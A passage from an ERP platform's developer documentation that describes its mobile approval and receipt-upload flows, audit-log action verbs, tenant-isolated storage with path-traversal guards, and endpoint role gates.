- **Stale-counts indicator on the hub badge** — when the `/erp/approvals/counts` call fails, the badge renders `?` with a hover hint instead of "0" or blank. False reassurance would let real approvals slip past the operator.
- **Upload errors are typed** — a 413 surfaces as "File too large (max 10 MB)" rather than the raw network error.
- **List-fetch errors render an inline error card** with the message instead of silently showing "No attachments yet." That lie would lead the operator to upload a duplicate when 50 receipts are already attached.
- **`API.upload` is the only safe path** for multipart — earlier code used raw fetch with `API.getToken()` which returns `Bearer undefined` because no public `getToken()` exists.
- **`API.fetchBlob` for thumbnails** is what fires the 401 auto-refresh chain. Previous raw fetch on expired JWT silently 401'd every thumb, and the user saw degraded placeholders instead of a session refresh prompt.
- **Add-to-home-screen tip** is shown as a small caption on the hub. Adding the page as a PWA shortcut bypasses the browser chrome and makes the flow feel native — that's the operator's signal that this isn't just the desktop UI shrunk to a phone.
- **No offline mode in v1.** All three screens require a live network. A field worker who loses signal mid-upload will see an upload-failed toast; the receipt photo must be retaken when signal returns. Persistent local queueing is a later platform sprint.

### Realistic walkthroughs

**Approve three cost corrections from a phone:**
1. Operator opens `/erp/mobile` — sees badge `3` on Approvals Inbox.
2. Taps in; three cards render with entity_type `cost_correction` and short summaries.
3. Taps Approve on the first → modal pops with optional decision-note textarea.
4. Hits Approve in the modal → POST `/erp/approvals/{id}/decide` → success toast → hub auto-refreshes.
5. Repeats for the next two.

**Attach a receipt to a vendor bill:**
1. Operator opens `/erp/mobile/attach`.
2. Picks `vendor_bill` from the dropdown, types `42` as the ID.
3. Existing-attachments list renders (empty for a new bill).
4. Taps "capture / pick a receipt" — phone opens rear camera (`capture="environment"`).
5. Snaps photo → multipart POST `/erp/attachments` with `{entity_type, entity_id, file}`.
6. Toast "Uploaded" → list refreshes showing the new attachment thumbnail.

---

## Audit log summary

Every platform write path emits an audit-log entry via `AuditService::log` wrapped in `safeAudit` (try/catch so an audit failure NEVER fails the underlying action — only logs the audit failure as an error):

| Action verb | Emitted by | Meta |
|---|---|---|
| `document_template.promoted` | DocumentTemplateService::promoteToActive | version, version_id |
| `document_template.archived` | DocumentTemplateService::archive | — |
| `document_template.deleted` | DocumentTemplateService::delete | — |
| `email.sent` | EmailDeliveryService::send (on success) | template_id, entity_type, entity_id, recipients, provider, final_status |
| `email.send_failed` | EmailDeliveryService::send (on failure) | (same as above) |
| `import_job.created` | ImportJobService::uploadAndCreate | entity_type, total_rows, mode |
| `import_job.completed` | ImportJobService::run | success, failed, skipped, final_status, final_status_ok |
| `import_job.cancelled` | ImportJobService::cancel | — |
| `export_job.created` | ExportJobService::createAndRun | entity_type, filters |
| `export_job.completed` | ExportJobService::run | row_count, bytes |
| `export_job.failed` | ExportJobService::run | error / error_class + sqlstate |
| `erp_api_key.created` | ErpApiKeyService::generate | key_id, name, scope_count |
| `erp_api_key.rotated` | ErpApiKeyService::rotate | key_id |
| `erp_api_key.revoked` | ErpApiKeyService::revoke | key_id |

Compliance dashboards that count "emails sent" MUST filter on `action='email.sent'` exactly — `email.send_failed` shares the entity_id namespace but is a distinct verb (round-3 Sev-1 fix).

---

## Storage layout

All platform-generated artefacts live under `api/storage/` with a tenant-id subdirectory so a download path-traversal can't escape into a sibling tenant's files:

```
api/storage/
├── document_renders/{tenant_id}/    # PDFs from DocumentRenderService
├── exports/{tenant_id}/             # CSVs from ExportJobService
└── imports/{tenant_id}/             # Uploaded CSVs from ImportJobService
```

Path-traversal guards apply at download time (`realpath` must start with the tenant subdirectory + DIRECTORY_SEPARATOR). On Windows the comparison is case-insensitive (NTFS / FAT are case-preserving but case-insensitive); on POSIX it's case-sensitive. The trailing separator is required so tenant id `1` can't match `exports/10/*` by prefix.

---

## Role gates summary

| Endpoint family | Required role | Auth type |
|---|---|---|
| `/erp/document-templates` (write) | manager+ | JWT or API key with appropriate scope |
| `/erp/email-providers` (read AND write) | manager+ | JWT or API key |
| `/erp/outgoing-emails` (send) | manager+ | JWT or API key |
| `/erp/import-jobs` (write) | manager+ | JWT or API key |
| `/erp/export-jobs` (write) | manager+ | JWT or API key |
| `/erp/admin/api-keys` (all) | manager+ | **JWT only** — API-key auth is refused |
| `/erp/mobile/*` | per underlying endpoint | JWT only |
| `GET /erp/openapi.yaml` and `GET /erp/docs` | public | — |

"manager+" means one of `super_admin` / `admin` / `manager` — checked by each controller's `requireManage()` helper. The API-key-refused gate on key-management endpoints is explicit so a leaked key cannot enumerate, revoke, or mint sibling keys.

---

## Cross-references

- **Document Renders** are produced by [Sales & AR](./sales-ar.md) email-invoice actions and [Procurement](./procurement.md) email-PO actions — the entity types `customer_invoice` and `purchase_order` live in those modules.
- **Outgoing Emails** are the audit trail for every customer/vendor-facing communication the system sends; the [Compliance Reports](./reports.md) section reads `action='email.sent'` to count delivered messages.
- **Import Jobs** are how bulk master-data setup happens for [Items](./items.md#item-master), [Finance Master Data](./finance.md), and customer/vendor records.
- **Export Jobs** are how operators round-trip data into external systems — every Reports screen's "Export to CSV" button creates one.
- **API Keys** authorise the [public ERP API surface](./reports.md) for external integrations (procurement bot, BI ETL, etc.). Scopes match the route allowlist enforced by `Auth::hasScope`.
- **Mobile Flows** are the field-worker face of the Approvals queue (cost corrections, vendor bills, time off) and the Attachments service (receipt upload onto any ERP entity).
